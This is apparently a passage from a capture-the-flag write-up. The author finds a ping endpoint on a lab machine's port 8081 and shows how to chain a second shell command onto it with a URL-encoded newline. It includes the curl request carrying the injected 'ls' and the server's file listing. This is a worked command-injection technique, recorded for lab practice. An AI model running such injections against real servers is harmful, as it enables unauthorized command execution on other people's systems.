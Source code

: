 But even _more_ interestingly is this pinging going on between the ports.

![ping](./.assets/ping.png)
(The IP address is different as I restart machines whenever I feel they're too slow)

---

### Finding vunerabilities

Navigating back to port 8081 at ping we can start to try find vunerabilities from the ping mechanic we discovered earlier.
First I check if I can manipulate the ping request and ping myself.

On my machine I setup tcpdump:
```bash
tcpdump -i utun1 icmp
```

And I setup the http request as:
```bash
curl "http://$IP:8081/ping?ip=<<IP>>"
```

And I notice a captured packet from `tcpdump`!

So we can execute _one_ command on the machine. And I initially thought to find some sort of way to exploit ping by using `$(pwd)` or similar in the IP address but this did not work. So I upon further research about how urls are crafted I learnt about their encoding and how `%0A` is often a bit of a hassle to deal with.
`0A` is the hex for a newline or `\n`. Meaning that after our request if we add `%0A` we could potentially run another command...

Time to craft up another url request.

```bash
curl "http://10.10.82.85:8081/ping?ip=<<IP>>%0Als"
```

```
PING <<IP>> (<<IP>>) 56(84) bytes of data.
64 bytes from <<IP>>: icmp_seq=1 ttl=63 time=238 ms

--- <<IP>> ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 238.453/238.453/238.453/0.000 ms
index.js
node_modules
package.json
package-lock.json
start.sh
<<REDACTED>>
```
